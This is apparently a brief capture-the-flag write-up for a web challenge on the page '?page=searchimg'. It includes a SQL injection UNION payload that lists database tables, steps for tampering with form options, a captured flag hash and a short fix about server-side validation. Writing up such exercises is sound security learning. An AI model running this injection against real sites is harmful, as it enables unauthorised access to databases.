 # Where: <br>
    /?page=searchimg
# How:
-By entering
    1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()<br>

-Change the value of 1 of the options to an invalid value.
Or
-Add an invalid option.
-Select the invalid value
-Receive the flag
# Flag:
03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
Store options server side/on backend.All user input should be sanitised and validated (backend).
